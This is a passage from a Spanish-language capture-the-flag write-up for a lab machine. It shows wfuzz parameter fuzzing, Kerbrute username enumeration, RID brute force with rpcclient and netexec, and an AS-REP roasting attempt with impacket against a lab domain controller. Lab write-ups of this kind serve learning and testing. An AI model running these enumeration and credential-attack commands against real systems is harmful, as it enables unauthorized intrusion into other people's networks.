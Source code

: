 <figure><img src="../../../../../.gitbook/assets/1617_vmware_6A44KNxEoC.png" alt=""><figcaption></figcaption></figure>

Por lo tanto, pensando que el total de carácteres cambiará si le pasamos la variable correcta, procedemos a ocultar el total de carácteres (17). Encontramos que parece ser que hay una variable válida nombrada "name".

{% code overflow="wrap" %}
```bash
wfuzz -c --hc=404 --hh=17 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt 'http://internal.analysis.htb/users/list.php?FUZZ=test'
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1618_vmware_6eShwx8sv6.png" alt=""><figcaption></figcaption></figure>

## Users Enumeration

### Kerberos - User Brute Force Enumeration (Kerbrute)

Por otro lado, procederemos a intentar enumerar usuarios válidos del dominio a través de **Kerbrute**.

{% code overflow="wrap" %}
```bash
kerbrute userenum --dc 10.10.11.250 -d analysis.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1624_vmware_MF1tULKvPF.png" alt=""><figcaption></figcaption></figure>

### RPC Enumeration and RID Brute Force Attack - \[FAILED]

Procederemos a realizar una enumeración de usuarios a través del RPC y a realizar un RID Brute Force Attack, sin resultado ninguno.

```bash
rpcclient -U "" -N 10.10.11.250

netexec smb 10.10.11.250 -u 'guest' -p '' --rid-brute
```

<figure><img src="../../../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

### AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

De la lista de usuarios que hemos sacado con **Kerbrute**, podemos ir intentando a realizar unn **AS-REP Roasting Attack**.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/ 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/1625_vmware_pcduiE2ByF.png" alt="" width="472"><figcaption></figcaption></figure>
